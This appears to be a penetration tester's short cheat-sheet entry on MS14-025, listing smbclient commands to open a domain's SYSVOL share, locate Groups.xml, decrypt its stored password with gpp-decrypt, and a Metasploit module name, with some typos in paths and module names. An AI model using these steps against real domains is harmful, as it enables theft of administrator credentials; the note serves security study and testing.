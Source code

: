 # MS14-025
Displays when provided a password BEFORE the patch..
[Groups.xml]

> smbclient -U <user> --workgroup=<domain> //<ip>/SYSVOL
    > smb: \> policiets\{31B2F3...}\MACHINE\Preferences\Groups\Groups.xml

> gpp-decrypt <encrypted_pw_in_groups.xml>




### Metasploit:
use auxilary/smb_enum_gpp
mget *